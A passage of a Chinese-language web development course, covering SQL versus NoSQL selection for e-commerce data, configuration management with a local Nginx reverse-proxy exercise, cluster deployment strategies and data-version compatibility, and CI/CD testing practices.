设计和选型方面，有很多问题都不是黑白分明的，而是要拆分开来一块一块分析。我听到过很多“一刀切”的答案，比如有的人说用 MySQL，有的说用 Redis，我认为这样的结论都是不妥的。那么怎样来选择呢？下面我就来介绍一些 SQL 和 NoSQL 选择的原则。但是在讲原则以前，我觉得需要从两个“前提角度”去厘清我们的问题。

以电商网站的设计为例，这两个角度就是这样的。

## 1. 数据分类

电子商务网站，这个概念所意味着的数据类型太多了。简单举几个例子：

- 商品元数据，即商品的描述、厂家等等信息；
- 媒体数据，比如图片和视频；
- 库存数据，包括在某个地点的库房某商品还有多少件库存；
- 交易信息，比如订单、支付、余额管理；
- 用户信息，涉及的功能包括登陆、注册和用户设置。

因此，在讨论什么存储适合数据和访问的时候，我们最好明确，到底具体是哪一种类型的数据。毕竟，看起来上面的业务场景将有着巨大差别。

## 2. 数据规模

电子商务网站有大有小，可别一想到电商网站，脑海里就是淘宝和京东，商品可以上千万，甚至上亿。但其实，我们大多数接触的系统，都不会有那么大的规模，电商网站完全可以小到一个提供在线购物业务的私人体育用品专营店，商品数量可以只有几十到几百。

只有把问题做如上的展开并明确以后，我们再去思考和讨论数据结构、一致性、可用性等等这些我们“熟悉”的方面，才准确。因此，从上面的例子来看，**我们在选择技术的时候，很可能要针对每一类数据选择“一组”技术，而不是笼统地选择“一项”技术了。**

## 选择的思路

那么下一步，我们该怎样来选择 SQL 或是 NoSQL 数据库呢？这部分可以说，不同的人有着颇为不同的看法。下面我想根据我的认识，谈谈一个大致的选择思路，请注意这只是一个粗略的基于经验的分类，具体的技术选择还要具体问题具体分析和细化。

**1. 对于中小型系统，在数据量不大且没有特殊的吞吐量、可用性等要求的情况下，或者在多种关系和非关系数据库都满足业务要求的情况下，优先考虑关系数据库。**

关系数据库提供了成熟且强大的功能，包括强 schema 定义、关系查询、事务支持等等。关系数据库能够带来较强的扩展能力，未来在业务发展的时候，通过增加索引、增加表、增加列、增加关系查询，就可以迅速解决问题。

在从内存模型到实际存储数据的 ORM 转换的时候，有非常成熟的且支持程度各异的框架，有的把 ORM 完全自动化，让程序员可以关注在核心业务模型上面；有的则是把 ORM 定义让出来，提供足够的灵活性（这部分可以参见 [第 12 讲] 的加餐部分）。

值得注意的是，**不要觉得 NoSQL 是大数据量的一个必然选择**。事实上，即便数据量增大，关系数据库有时也依然是一个选择。当然需要明确的是，通常单表在数据量增大时，会产生性能方面的问题，但是可以使用 Sharding 和 Partitioning 技术来缓和（扩展阅读中有这方面技术的介绍）；而数据可用性的问题，也可以使用集群加冗余技术来解决，当然，有得必有失，这种情况下，通常会牺牲一定程度的一致性。

那么，这个数据量多大算大到关系数据库无法承担了呢？我可以给你一个事实，即微博和 Twitter 都是使用 MySQL 作为主要推文存储的（你可以参看扩展阅读中的文章），因此你可以看到在实际应用中，关系数据库对于特大数据量的支持也是有成功实践的。

## 2. 是否具备明确的 schema 定义，是否需要支持关系查询和事务？如果有一项回答“是”，优先考虑关系数据库。

关系数据库，首当其冲的特点就是“关系”。因此，可能会有朋友说，不对，电商网站的“商品”其实 schema 是不确定的啊——例如，服装一类商品，都有“尺寸”信息；而电器类呢，都有“功率”信息，这样特定类型的属性决定了商品很难被抽象成某一个统一的表啊。

没错，但是为什么要做到如此牵强的“统一”？通用的商品属性，例如厂家、商品唯一编号当然可以放到“统一”的商品表里面，但余下的信息还是可以根据商品类型放到各自类型的特定表里面，这就好像基类和派生类一样，抽象和统一只能做到某一个层次，层次太高反而不利于理解和维护。

对于一些需要事务的需求，例如订购，往往需要关系数据库的支持。当然，这只是多数情况，NoSQL 也有例外，即允许选择 CAP 中的 CP，具备强一致性且支持事务机制的，例如 DynamoDB。

而有一些系统和数据，则变化很大。比如用户数据，在多数情况下，schema 往往是比较明确的，而且数量上也没有订单等数据一般有特别大的伸缩性要求，因此往往也放到关系数据库里面；但是，在另外一些系统中，用户信息的组成不确定，或者说，schema 不确定，用户信息会放到 JSON 等松散结构的文本中，这种情况下文档数据库也是一个常见的选择；但是在搜索等某些相关功能的实现上，可能又会使用搜索引擎等不同于上面任一者的其它方式。

## 3. 如果符合结构不定（包括半结构化和无结构化）、高伸缩性、最终一致性、高性能（高吞吐量、高可用性、低时延等）的特点和要求，可以考虑非关系数据库。

简单来说，这时的具体技术选择，可以按照这样两个步骤来落地：

- 如果你还记得 [第 24 讲] 中介绍的那个 NoSQL 三角，根据一致性、可用性的要求，我们可以选择这个三角中的某一条边；
- 而在 [第 25 讲] 中则介绍了具体的 NoSQL 技术的分类和适用的问题类型，可以依其做进一步选择，比如根据数据结构化的程度，在那条边上，来进一步选择某一类 NoSQL 的存储技术。

比如说，这个电商问题中提到的媒体数据，即图片和视频，通常来说可用性更为重要，而这一类的大文件，没有内部的 schema，可以考虑使用擅长存放无结构大对象的文档型数据库。当然，也可以直接存放为文件，利用 CDN 的特性同步到离用户更近的节点去，特别对于视频来说，要提供好的用户体验，砸钱到 CDN 服务几乎是必选。

再比如，商品页在很大程度上都是可以缓存的，而缓存基本上都是为了保证可用性而会牺牲一定的一致性。除了上面介绍的 CDN 实现了对媒体内容的缓存以外，商品页本身，或是大部分区域的信息，都是可以利用 Memcached 等缓存服务缓存起来的。

<h1 id="chapter28">28 | Ops三部曲之一：配置管理</h1>

我们总在谈论 Ops，所谓 Ops，指的就是 Operations，如果你专门去搜索，你恐怕也很难找到一个准确的定义。在中文翻译上看，“运维”这个词用得比较多，但是我认为 Ops 的含义明显更为广泛。我的理解是，和实际的软件开发和质量保证相对应的，环境搭建、配置管理、自动化流程、部署发布，等等的实践活动，无论线上还是线下，无论它们是在开发测试环节还是产品发布环节，都可以算作 Ops。

当然，**我们并不需要执着去找出 Ops 和开发、测试的分界线，它们实际是互有重叠的**，我觉得维基百科上的这张图就很好地展示了这一点。


我想很多程序员不喜欢 Ops，也不愿意谈 Ops，这都可以理解，毕竟，和开发本身比起来，它没有那么多的创造性，有时甚至属于“重要但无趣”的工作。但是，我必须要强调的是，不只对于全栈工程师而言，Ops 能力对于每一个通常意义上的软件工程师来说，都是必须要锻炼的重要方面。

需要明确的是，我今天要讲的配置管理，我认为就是 Ops 的一个重要部分，它关注的是软件代码以各种形式，在项目的各个阶段存在的配置。几乎每个做运维的人都要经常去修改大量的线上配置，无论是来自操作系统还是应用本身。这个话题很少有人谈及，但却存在于每个程序员的日常工作中。

## 常见的配置方式

在实际的项目开发过程中，当我们讲到“配置”的时候，其实隐含了许多不同的方式，这些方式有时候看起来差不多，实际却有着最适合的场景。

## 1. 源代码中的常量

代码常量是一种最典型的配置方式，它的特点是定义和使用方便，且只对开发人员友好。每次变更的时候，都需要改动代码，经过一定的测试和 Code Review，之后还要通过指定流程的部署，才能发布到产品线上。

通常来说，项目中常量类的定义有着明确的规约，比如这样的示例代码：

```java
public final class ProductConstants {
    private ProductConstants() {}

    public static int MAX_NUMBER = 9999;
    public static String DEFAULT_CODE = "123";
}
```

你看，上面的常量类包含的要点有：

- 类名直白且具体，这个 Product 修饰很重要，避免了过于一般化的常量类定义，从而限制了它的职责范围；而这个 Constants 则说明了类的属性，一眼就知道它是干什么的。
- 被定义为无法实例化的（即将构造器私有化），无法被继承的（即使用 final 修饰）。
- 常量都使用 public static 修饰，这样就可以直接访问，而不需要实例化这个类。

值得一提的是，在我参与过的项目中，有的程序员为了强制编码的时候只能定义 static 属性来表示常量，会使用 interface 这样的方式，即使用接口来存放常量。效果自然是能达到的，但是这个方法有些投机取巧（毕竟和 interface 关键字所应该表示的含义有明显偏差了），我认为这是一种反模式。

## 2. 代码中的配置文件

代码中的配置文件也很常见，它们从 Java、Python 这样的编程语言中脱离出来，但是依然作为源代码的一部分而存在。那为什么要这样做呢？

简单来说，就是为了“解耦”。

而就是这个“解耦”，带来了诸多好处。例如最小职责，单一职责，即配置文件做且只能做配置；再例如可以将同一类的资源放在更合适的地方统一管理了。

举例来说：

```
MessagesBundle_en_US.properties
MessagesBundle_fr_CN.properties
MessagesBundle_de_DE.properties
```

你看，这样的 i18n（Internationalization）的特定语言的资源文件，就从编程语言的代码中独立出来了，更容易统一管理和维护。

这种把相关代码或配置单独拿出来的方式，不知道你能否联想到我们在 [第 10 讲] 中介绍的 MVC 控制器各个子功能的配置方式，当时不但讨论了横向和纵向两种实现形式，还讨论了各自的优劣，如果忘记了的话，你可以阅读回顾一下。比如 URL 映射，既可以通过注解的方式，和实际的 Controller 代码放在一起；也可以通过 XML 配置的方式，从 Java 代码中拿出去。

## 3. 环境配置文件和环境变量

接着我们来讲讲环境下的配置。这里的“环境”（Environment），指的是代码部署的环境，可以是用于开发的笔记本电脑，也可以是生产线上的机器。对于不同的环境，虽说代码是同一份，但是可以通过不同的环境配置文件和环境变量，让代码执行不同的逻辑。

举一个环境配置文件的例子，例如环境下有这样一个文件，定义了这个环境所属的“地区”，而通过这个地区，可以从代码中寻找到相应正确的配置文件来读取配置：

```
/etc/region
```

在某些系统中，这样的配置可以通过一个 web 工具指定，并通过一定的部署工具将其同步到目标环境中去。

还有一种类似的方式是环境变量，环境变量和环境配置文件，有时允许同时存在，但是有一定的优先级顺序。比如说，如果环境变量使用 REGION 也指定了上述文件中的 region，发生了冲突，这就要根据优先级的关系来决定使用哪一个配置，通常来说，环境变量比环境配置文件优先级更高。

那为什么要允许配置不同方式的覆写呢？这是为了给应用的部署赋予灵活性，举例来说，/etc/region 已经确定了值为 EU（欧洲），那么如果需要在该物理机器上部署两份环境 ，第二份就可以通过环境变量 REGION 强制指定为 NA（北美）。

## 4. 运行参数

运行参数，可以说是最为具体的一种配置方式，真正做到了应用级别，即一个应用可以配置一个参数。这种情况其实对于开发人员来说非常熟悉，比如在项目中应用 log4j2 这个日志工具时，启动应用的 java 命令上，增加如下参数：

```java
-Dlog4j.configurationFile=xxx/log4j2.xml
```

通过这样的运行参数指定的方式，指定 log4j2 配置文件的位置。

当然，也可以通过规约优于配置的方式，不显式指定位置，而在 classpath 中放置一个名为 log4j2.component.properties 的文件，里面指定类似的配置，而 log4j2 在系统启动的时候可以自动加载。

## 5. 配置管理服务

常见的配置方式中，我们最后来讲一下配置管理服务。尤其对一个较大的系统来说，配置管理是从整个系统的层面上抽取并统一管理配置项的方式。通常来说，这样的配置管理系统会被包装成一个服务，当然，也有少数是单纯放到数据库的某张表里，不过这种数据库访问层面的耦合通常并不推荐。

一旦配置管理成为了独立的服务，就说明这个系统已经复杂到一定程度了，通常也意味着这个服务的用户，不再只是开发人员了，往往还有运维人员，甚至是一些非技术的管理人员。

## 配置的层级关系

资源文件，本质上也算是代码的一部分，**通过合理的设计，可以让资源文件具备编程语言代码一般的继承关系**。比如这样的配置文件组织结构：

```
conf/rules.conf
conf/CN/rules.conf
conf/CN/Zhejiang/rules.conf
conf/US/rules.conf
```

conf 目录下，rules.conf 文件就像是基类，存放了默认的规则配置；下面的 CN 目录下的 rules.conf 则存放了中国区的增量配置，就像是子类，里面的配置项优先级高于“基类”的配置，起到一个有选择性地覆写的作用；而再下面的 Zhejiang 目录下的 rulels.conf 则表示浙江省的规则配置，优先级更高。

在这种方式下，配置代码不但清晰易懂，而且减少了重复，易于维护。

## 规约优于配置

不知道你是否还记得我们在 [第 10 讲] 中介绍过的“终极偷懒大法”——规约优于配置（CoC，Convention over Configuration）。在这种方式下，系统和配置的用户会建立“隐性的契约”，通过遵从一定的规则，比如命名规则，达到自动应用配置的目的。

当时我们举了一个 Spring 的 ControllerClassNameHandlerMapping 的例子来说明，现在我们来举另外一个 Grails 的例子。这里使用 Grails 举例，是因为 Grails 是我接触过的应用 CoC 原则应用得最好的 Web 应用框架了，使用它搭建起一个 Web 应用极其简洁。如果你使用过 Spring Boot 并对它印象还不错的话，你可以尝试这个将快速和简洁履行得更为彻底的 Grails。

```java
class BooksController {
    def index() { ... }
}
```

你看，如此简单的控制器定义，就可以自动把路径为 /books 的请求映射到 index 方法上，通过规约将 BooksController 映射到 /books 上，而 index 又代表了默认的 GET 方法的访问。

## 配置模板

对于某些复杂或灵活的软件系统来说，配置会变成实际上的 DSL（Domain Specific Language），复杂程度可以不亚于一门编程语言写的代码。于是，有一种常见的帮助使用者理解和修改配置的方法就出现了，它就是创建配置模板，写好足量的配置默认值和配置说明，这样使用者就可以复制一份模板，并在其之上按需修改，比如 Nginx 的配置模板。

Nginx 是一个高性能的反向代理服务器，反向代理可以挡在 Web 服务器前面响应用户的请求，根据不同的规则来处理请求，比如认证、限流、映射到其它路径，访问特定的服务器等等，将这些复杂的访问逻辑和服务器节点都隐藏起来，给用户提供一个单一的 IP 地址。

下面我们来动动手，亲自配置一下 Nginx 并让它工作起来。

在 Mac 上你可以使用 brew 来安装 Nginx，或者去官网上找一个适合的版本下载安装：

```s
brew install nginx
```

在安装成功以后，你应该能看到命令行输出了默认 Nginx 配置文件的位置，例如 /usr/local/etc/nginx/nginx.conf。现在打开看一下，你会发现它本质上就是一个配置模板，有些配置选项为了便于程序员理解和使用，使用注释包围起来了。在同一路径下，还有一个 nginx.conf.default 作为备份和参考。

还记得在我们在 [第 12 讲] 中自己动手配置的过滤器吗？确认一下它还能正确运行：

```s
catalina run
```

接着访问 http://localhost:8080/books?category=art，你应该能看到类似如下的输出：

```
Category name: art, date: 2019-10-4 Count: 1
```

好，如果能正确运行，我们继续往下；否则，请回头看看那一讲是怎样把这一个过滤器配置起来的。现在我们根据前面提示的 Nginx 配置文件的路径来稍加修改，比如，把 http 部分的 #access_log 开始的一行修改为类似如下路径：

```s
access_log  /logs/nginx_access.log;
```

接着打开一个新命令行窗口运行：

```s
tail -f /logs/nginx_access.log
```

这样就可以监视 Nginx 的请求访问日志了。

继续修改配置文件，在接下去的 server 部分，将开头部分的 listern、server_name 修改为如下配置，表示同时捕获访问 localhost 的 80 端口和 9000 端口的请求：

```s
listen 80;
listen 9000;
server_name  localhost;
```

紧接着，在它下方增加路径映射的配置：

```s
location ~ /books.* {
    proxy_pass  http://localhost:8080;
}
```

这表示如果 URI 是以 /books 开头，就映射到 8080 的端口上面去。

好了，如果是第一遍启动 Nginx，你可以直接执行 sudo nginx，如果已经启动，但是修改了配置文件，你可以重新加载 sudo nginx -s reload。

现在，去访问如下两个链接，你都应该看到前面见到的那个熟悉的页面：

```
http://localhost/books?category=art
http://localhost:9000/books?category=art
```

这证明端口映射成功了，并且，切换回访问日志的那个窗口，你应该可以看到类似这样的访问日志：

```s
127.0.0.1 - - [04/Oct/2019:20:36:43 -0700] "GET /books?category=art HTTP/1.1" 200 46 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36"
```

<h1 id="chapter29">29 | Ops三部曲之二：集群部署</h1>

## 负载分担

还记得我们在 [第 28 讲] 中介绍的反向代理吗？负载分担，又叫负载均衡，也就是 Load Balancer，就是反向代理设备中非常常见的一种，它可以高效地将访问请求按某种策略发送到内网相应的后端服务器上，但是对外却只暴露单一的一个地址。

除了作为名词特指设备，负载分担还可以作为动词指用来分配请求负载的行为，它可大可小，小可以到使用 F5 等负载均衡的专用设备来将请求映射到几台服务器上，但也可以大到用 DNS 来实现广域网的路由。例如同样访问 www.google.com，DNS 会对于不同地区的人解析为不同且就近的 IP 地址，而每个 IP 地址，实际又是一个更小的负载分担的子网和服务器集群。


上图演示了这样一个过程：

- 用户 A 和用户 B 都去 DNS 服务器查询 Google 的 IP 地址，但是他们在不同地区，不同的 DNS 服务器返回了不同的 IP 地址；
- 以用户 B 为例，根据返回的地址发送了一个 HTTP GET 请求，这个请求被负载均衡器转发给了服务器集群中的其中一台服务器 Web Server 2 处理并返回。这个城堡一样的结构图示就是负载均衡器，负责转发请求到实际的服务器。它可以由硬件实现，例如 F5；也可以由软件实现，例如 Nginx。

对于 DNS 的记录查询，我们曾在 [第 21 讲] 动手实践过，如果你忘记了可以回看。

## 策略算法

负载分担需要把请求发送到相应的服务器上，但是怎么选择那一台服务器，这里就涉及到策略算法了，这个算法可以很简单，也可以非常复杂。常见的包括这样几种：

- 随机选择：从服务器的池中随机选择一台，这是一种实现上最简单的方式。
- 轮询（Round Robin）：按顺序一台一台地将请求转发，本质上它和随机选择一样，缺乏对任务较为合理的分配。
- 最小连接：这种方式检测当前和负载均衡器连接的所有后端服务器中，连接数最小的一个。这是一种近似寻找“最小资源占用”的机器的方法。
- 其它寻找“最小资源占用的方法”，例如根据服务器报告上来的 CPU 使用率等等来分配，但是对于统计信息的收集，会显著增加系统的复杂度。
- 指定的哈希算法：例如我们曾在 [第 23 讲] 中介绍的一致性哈希，这种方式也非常常用，这种方式就不只是从访问压力分散的角度来考虑了，还起到了寻找数据的“路由”的作用，如果你忘记了，可以回看。

## 服务端 Session 和浏览器 Cookie

从上面负载分担的策略算法可以看出，大部分的策略算法是适合服务器“无状态”的场景，换言之，来自于同一个浏览器的请求，很可能这一个被转发给了服务器 1，紧接着的下一个就被转给服务器 2 了。在没有状态的情况下，这第二个请求被转给哪台服务器都无所谓。

## 服务端 Session

对于很多 Web 业务来说，我们恰恰希望服务器是“有状态”的。比如说，登陆是一个消耗资源较为明显的行为，在登陆的过程中，服务器要进行鉴权，去数据库查询用户的权限，获取用户的信息等操作。那么用户在登陆以后，一定时间内活跃的访问，我们希望可以直接完成，而不需要再次进行重复的鉴权、权限查询和用户信息获取等操作。

这就需要服务端存储的“会话”（Session）对象来实现了。Web 服务器在内存中存放一个临时对象，这个对象就可以存放针对特定用户的具体信息，比如上面提到的用户信息和用户权限信息等等。这样，当用户再一次的请求访问到来的时候，就可以优先去会话对象中查看，如果用户已经登录，已经具备了这些信息，那么就不需要再执行这些重复的鉴权、信息获取等操作了，从而省下大量的资源。

当然，我们也不知道用户什么时候就停止了对网站的使用，他可能会主动“登出”，这就要求我们**主动**将会话过期或销毁；他也可能默默地离开，这就需要一个会话管理的超时机制，在一定时间以后也要“**被动**”销毁这个会话，以避免会话信息无效的资源占用或潜在的安全隐患，这个时间就叫做会话超时时间。

## 浏览器 Cookie

浏览器可以以文本的形式在本地存放少量的信息。比如，在最近一次访问服务器、创建会话之后，服务器会生成一个标记用户身份的随机串，这样在这个用户下次访问同一个服务器的时候，就可以带上这个随机串，那么服务器就能够根据这个随机串得知，哦，是老用户到访，欢迎欢迎。

这个随机串，以文本的形式在浏览器端的存储，就被称为 Cookie。这个存储可以仅仅是在内存中的，因而浏览器退出就失效了；也可以存储在硬盘上，那么浏览器重新启动以后，请求发送依然可以携带这个信息。

从这套机制中，你可能已经发现了，它们在努力做的其实就是一件事——给 HTTP 通信填坑。

回想一下，我们已经介绍过 HTTP 版本的天生缺陷。在 [第 02 讲] 我们介绍了，**缺乏数据加密传输的安全性大坑**，被 HTTPS 给填了；在 [第 03 讲] 我们学习了，**只能由客户端主动发起消息传递的交互模式上的坑**，被服务端推送等多种技术给填了。

现在，我们来填第三个坑——**HTTP 协议本身无法保持状态的坑**。既然协议本身无法保持状态，那么协议的两头只好多做一点工作了，而客户端 Cookie 和服务端 Session 都能够保存一定的状态信息，这就让客户端和服务端连续的多次交互，可以建立在一定状态的基础上进行。

## 集群部署

集群带来了无单点故障的好处，因为无单点故障，是保证业务不中断的前提。但是，每当有 bug 修复，或是新版本发布，我们就需要将新代码部署到线上环境中，在这种情况下，我们该怎样保证不间断地提供服务呢？

在软件产品上线的实践活动中，有多种新版本的部署策略，它们包括：

- 重建（Recreate）部署：旧版本停止，新版本启动。
- 滚动（Ramped）部署：旧版本缓慢地释出，并逐渐被新版本替代。这是最常见的内部服务的部署方式，我在下面会详述。
- 蓝绿（Blue/Green）部署：在旧版本不停机的情况下，新版本先完成部署，再将流量从旧版本导过来。这也是非常常见的，这种部署的好处是，可以有充分的时间，对部署了但未上线的新版本做全量的测试，在线下确保没有问题了之后再切换线上流量。
- 金丝雀（Canary）部署：先导入少量的用户访问新版本，在验证正常后再逐步扩展到所有机器。这种部署也较为常见，最大的优点是它非常“谨慎”，可以逐步地扩展影响用户的范围，对于一些用户量非常大的业务，这种方式相对比较稳妥，可以不断观察使用情况和流量数据，在部署环节的任意时间做出适当调整。
- A/B 测试（A/B Testing）部署：导入特定用户到新版本代码。
- 影子（Shadow）部署：新版本接收实际的发往老版本的源请求的拷贝，但是并不干预源请求的处理和响应本身。

既然使用集群，一大目的就是保证可用性，避免停机时间，而上面这六种中的第一种——重建部署，显然是存在停机时间的，因此很少采用。

## 滚动部署

在互联网大厂（包括我所经历的 Amazon 和 Oracle），对于一般的服务来说，绝大多数服务的部署，采用的都是滚动部署。

- 重建部署存在停机时间，不讨论。
- 蓝绿部署需要两倍的服务器资源，这个是一个局限性，而即便资源申请不是问题，这部署期间多出一倍的资源，机器需要进行初始化等各种准备，会有一定的时间和资源开销；再有一个是老版本代码的机器上可能有一些配置，而这个配置在完成部署后切换的时候会丢失。
- 剩下的三种部署相对更为“谨慎”，自然效率较低，即部署速度较慢，对于绝大多数服务的部署来说，有些得不偿失。当然，事物都有两面性，它们对于许多面向互联网用户等至关重要的业务来说，有时就可能是更佳的选择。

那对于一般的系统，部署会按照 50% - 50% 进行，即将部署分为两个阶段。第一个阶段，50% 的服务器保持不动，另 50% 的服务器部署新版本；完成后，在第二个阶段，将这 50% 的老版本给更新了，从而达成所有节点的新版本。对于流量比较大的服务，也有采取 33% - 33% - 34% 这样三阶段进行的。


## 数据和版本的兼容

在应用部署的实践过程中，程序员一般不会忽略对于程序异常引发服务中断的处理。比如说，新版本部署怎样进行 Sanity Test（对于部署后的新版本代码，进行快速而基本的测试），确保其没有大的问题，在测试通过以后再让负载分担把流量引导过来；再比如说，如果新版本出现了较为严重的问题，服务无法支撑，就要“回滚”（Rollback），退回到原有的版本。

但是，我们**除了要考虑程序，还要考虑数据，特别是数据和版本的兼容问题。数据造成的问题更大，单纯因为程序有问题还可能回滚，但若数据有问题却是连回滚的机会都没有的**。我来举个真实的例子。

某 Web 服务提供了数据的读写功能，现在在新版本的数据 schema 中增加了新的属性“ratio”。于是，相应的，新版本代码也进行了修改，于是无论老数据还是新数据，无论数据的 schema 中有没有这个 ratio，都可以被正确处理。

但是，老代码是无法顺利处理这个新数据加入的 ratio 属性的。在采用滚动部署的过程中，新、老版本的代码同时运行的时候，如果新代码写入了这个带有 ratio 的数据，之后又被老版本代码读取到，就会引发错误。我用一张图来说明这个问题：


读到这里，你可能会说，那采用蓝绿部署等方式，一口气将旧代码切换到新代码不就行了吗？

没错，但是这是在没有异常发生的情况下。事实上，所有的部署都需要考虑异常情况，如果有异常情况，需要回滚代码，这突然变得不可能了——因为新数据已经写到了数据库中，一旦回滚到老代码，这些新数据就会导致程序错误。这依然会让负责部署任务的程序员陷入两难的境地。

因此，从设计开始，我们要就考虑数据和版本的兼容问题：

- **既要考虑新代码版本 + 老数据，这个是属于大多数情况，程序员一般不会忘记；**
- **还要考虑老代码版本 + 新数据，这个很容易遗漏 ，出问题的往往是这个。**

那如果真是这样，有什么解决办法吗？

有的，虽然这会有一些麻烦。办法就是引入一个新版本 V2 和老版本 V1 之间的中间版本 V1.5，先部署 V1.5，而这个 V1.5 的代码更新就做一件事，去兼容这个新的数据属性 ratio——代码 V1.5 可以同时兼容数据有 ratio 和无 ratio 两种情况，请注意这时候实际的数据还没有 ratio，因此这时候如果出了异常需要回滚代码也是没有任何问题的。

之后再来部署 V2，这样，如果有了异常，可以回滚到 V1.5，这就不会使我们陷入“两难”的境地了。但是，在这完成之后，项目组应该回过头来想一想，为什么 V1 的设计如此僵硬，增加一个新的 ratio 属性就引起了如此之大的数据不兼容问题，后续是否有改进的空间。

<h1 id="chapter30">30 | Ops三部曲之三：测试和发布</h1>

## CI/CD 和 Pipeline

CI 指的是 Continuous Integration，持续集成，而 CD 指的是 Continuous Delivery，持续交付。它们二者结合起来，通过将工程师的代码变更反复、多次、快速地集成到代码主线，执行多种自动化的测试和验证，从而给出快速反馈，并最终达到将变更持续、迅速发布到线上的目的。

为了达到持续集成和持续交付，我们几乎一定会使用一个叫做 pipeline 的工具来将流程自动化。Ops 中我们总在谈论的 Pipeline，指的就是它。**Pipeline 是一个将代码开发、编译、构建、测试、部署等等 Ops 活动集成起来并自动化的基础设施**。把 Pipeline 放在最先讲，是因为它是集成 Ops 各种自动化工具的核心，而这一系列工具，往往从编译过程就开始，到部署后的验证执行结束。

Pipeline 确定和统一了从开发、测试到部署的主要流程，但最大的作用是对劳动力的解放。程序来控制代码从版本库到线上的行进流程，而非人。因此，如果一个 pipeline 上面设置太多个需要人工审批的暂停点，这样的自动化就会失去一大部分意义。


从中你也可以看到，整个流程中，版本管理是触发构建和测试的核心工具，而**多层次、不同阶段的测试则是保证整个持续集成和持续交付的关键**。接下去，我们就来结合实例理解这一点。

## 不同测试的集成

记得上个月和一位硕士毕业以后做过一年网络工程师的朋友聊天，他正在慢慢转向通用软件工程师的角色。他在学校里修的是计算机相关的专业，因为毕业没有多久，他对于学校里做项目的情况还历历在目。

我问道：“你觉得工业界和学校里做项目有什么不同呢？”他说：“最大的不同在于，学校里更多的是‘实现功能’，而工作以后，更多的是‘实现工程’。”

我觉得这个概括非常贴切，事实上，实现的“功能”，只是“工程”范畴内太小的一部分了（关于这方面，你也许会想起 [第 28 讲] 的选修课堂，关于程序员“独立性”的介绍），一个程序员的工程能力，远远不只有实现功能那么简单。而测试，就是从学校迈向职场，以及在职场上成熟精进的角度之一。

在读书的时候，我们可能已经学过测试的 V 模型：


这是一个基本的给不同测试分层的方式，当然，还有从其它维度进行的测试分类方法。在有了 pipeline 以后，这些测试可以集成到上面去。每一层测试分别对应到设计阶段的特定环节。在实际项目中，不同维度测试的实现可谓参差不齐。我来挑几个，说说我的理解，并讲讲我所见到的来自 Web 全栈项目中的一些典型问题。

## 1. 单元测试

单元测试（Unit Test），这一步还属于代码层面的行为活动，因此单元测试一定要是开发写的，因为单元测试重要的一个因素就是要保证它能够做到白盒覆盖。

单元测试要求易于执行、快速反馈，且必须要做到完全的执行幂等性。对于整个持续集成活动来说，单元测试和其它测试不同，它是和源代码的编译构建放在一起的，也就是说，单元测试执行的失败，往往意味着编译构建的失败，而非一个单独测试过程的失败。据我观察，在 Web 全栈项目中，团队普遍都能够意识到单元测试的重要性，但是存在这样几个典型的问题。

## 问题一：执行缓慢，缺乏快速反馈。

由于需要反复执行和根据结果修改代码，快速的反馈是非常重要的，从几秒内到几十秒内必须得到结果。我见过有一些团队的单元测试跑一遍要十分钟以上，那么这种情况首先要考虑的是，单元测试是不是该优化了？代码包是不是太大，该拆分了？其次才去见招拆招，比如要求能够跑增量的测试，换言之，改动了什么内容，能够重跑改动的那一部分，而不是所有的测试集合，否则就失去了单元测试的意义。

特别说一个例子。有一些项目中，为了模拟一些代码的行为，会使用 sleep() 方法来让某些代码的执行“等一下”，这是一个典型的不良实践，这一类显式地拖慢单元测试执行的方法应当被限制或禁止。我们可以定义 TimeKeeper 之类用来返回“当前时间”的对象，这样在测试的时候，我们就可以替换其逻辑来模拟时间的流逝。

## 问题二：无法消除依赖。

单元测试关注的是方法、函数这些很小的“单元”，因此，为了能够专注在有限的代码层面并保持快速，所有的远程接口、其它组件的调用等等，全部都要用桩方法替换掉。但我依然看到很多项目中单元测试会调用数据库，会加载复杂的配置文件集合等等，我认为这些都是不妥的。我们希望单元测试放在开发机器上能跑，放到构建机器上也能跑，能做到这一点的前提，就是要把这些依赖组件全部拿掉。

## 问题三：对达到“单元测试覆盖率”机械而生硬地执行。

我是坚决反对那些在软件开发中不讲实际情况而制定生硬指标的做法的。单元测试和其它测试一样，书写和维护也都是有成本的，并非覆盖率越高越好，要优先覆盖那些核心逻辑和复杂逻辑的源代码（这个代码无论是在前端还是后端，我们都有很成熟的单元测试框架和技术了），因此我们单纯地讲一个覆盖率是缺乏意义的。

一个单元测试覆盖率 85% 的代码也许会比 15% 的代码好，但是，一个单元测试覆盖率 95% 的代码可未必比 90% 的更好，我反而会担心里面是不是有很多为了单纯达标覆盖率而被迫写的无意义覆盖测试的代码。

## 2. 集成测试

集成测试（Integration Test）泛指系统组件之间集成起来的功能性测试，但在 Web 项目中，经常特指的是针对暴露的 Web 接口进行的端到端的测试。它一般被放在持续集成的 pipeline 中，编译构建阶段结束以后执行。

集成测试的成熟程度，往往是一个项目质量的一个非常好的体现。在某些团队中，集成测试通过几个不同的环境来完成，比如α环境、β环境、γ环境等等，依次递进，越来越接近生产环境。比如α环境是部署在开发机上的，β环境是部署在专门机器上的测试环境，而γ环境又叫做“pre-prod”环境，是线上环境的拷贝，连数据库的数据都是从线上定期同步而来的。

**集成测试的过程中，一个很容易出现的问题，就是测试无法具备独立性或幂等性**。集成测试的执行，往往比单个的单元测试执行要复杂得多，有独立性要求测试的执行不会出现冲突，即要么保证某测试环境在任何时间只有单独的测试在执行，要么允许多个测试执行，但它们之间互不影响。幂等性则要求测试如果执行了一半，中止了（这种情况很常见），那么测试执行的残留数据，不会影响到下一次测试的顺利执行。

## 3. 冒烟测试

冒烟测试（Smoke Testing）在 Web 项目中非常实用。冒烟测试最关心的不是功能的覆盖，而是对重要功能或者核心功能的保障。到了这一步，通常在线上部署完成后，为了进一步确保它是一次成功的部署，需要有快速而易于执行的测试来覆盖核心测试用例。

这就像每年的常规体检，你不可能事无巨细地做各种各样侵入性强的检查，而是通过快速的几项，比如血常规、心跳、血压等等来执行核心的几项检查。在某些公司，冒烟测试还被称作“Sanity Test”，从字面意思也可以得知，测试的目的仅仅是保证系统“没有发疯”。通常不会有测试放到生产线的机器上执行，但冒烟测试是一个例外，它在新代码部署到线上以后，会快速地执行一下，然后再进行流量的切换。

除了功能上的快速冒烟覆盖，在某些系统中，性能是一个尤其重要的关注点，那么还会划分出 Soak Testing（浸泡测试）这样的针对性能的测试来。当然，它对系统的影响可能较大，有时候不会部署在生产环境，而是在前面提到的 pre-prod 的生产环境的镜像环境中。

